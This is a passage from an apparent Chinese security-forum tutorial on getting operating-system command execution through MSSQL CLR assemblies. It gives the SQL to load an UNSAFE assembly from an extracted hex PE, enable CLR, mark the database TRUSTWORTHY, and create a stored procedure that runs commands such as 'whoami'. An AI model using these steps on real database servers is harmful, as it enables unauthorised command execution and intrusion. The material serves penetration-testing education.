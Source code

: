 ![13.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-c6f666bf0d61a1f91db42941598d3aa5467f88bb.png)  
将该文件解压之后，会得到几个 xml 文件，如图：

![14.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-a8d6359ae6422e2ea20088c62a043bd88c85fc8b.png)

打开 model.xml，其中有两个长的 hex 内容，提取 0x4D5A 开头的那个，如图：

![15.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-a05909653ee15f1204e34844f4e82393a6c25a69.png)

然后替换到下面的 SQL 语句中：

```php
1.  CREATE ASSEMBLY \[ExecCode\]  
2.      AUTHORIZATION \[dbo\]  
3.      FROM 0x4D5A90000300000004000000FFFF0000B8000000000000004000000000000000000000000 …… 000000
4.      WITH PERMISSION\_SET = UNSAFE;  
5.  GO 
```

接下来使用数据库执行该命令，如图：

![16.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-b8a761e579ccb552816cbf2532e18e4cf5225217.png)

首次执行报错，可以使用下面的命令开启 clr 功能：

```php
1.  sp\_configure 'clr enabled', 1  
2.  GO  
3.  RECONFIGURE  
4.  GO 
```

使用下面的命令让导入的不安全程序集标记为安全：

```php
1.  ALTER DATABASE master SET TRUSTWORTHY ON;  
```

然后重启 MSSQL 服务才能生效，在实际利用中还是比较鸡肋，执行之前报错的语句成功之后，执行：

```php
1.  CREATE PROCEDURE \[dbo\].\[ExecCommand\]  
2.  @cmd NVARCHAR (MAX)  
3.  AS EXTERNAL NAME \[ExecCode\].\[StoredProcedures\].\[ExecCommand\]  
4.  go
```

![17.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-92b42431613a6f05309655ea333da3fd4065aae7.png)

现在就可以执行系统命令了，命令如下：

```php
1.  exec dbo.ExecCommand "whoami";  
```

![18.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-a3d31ca6c64ddf1d55c61bc26ac72bee69e3b6d6.png)  
这种方法也不是万能的，如果目标开启了 clr 的功能，是可以使用的，如果没有开启，自行开启需要重启服务，就比较难以控制了。
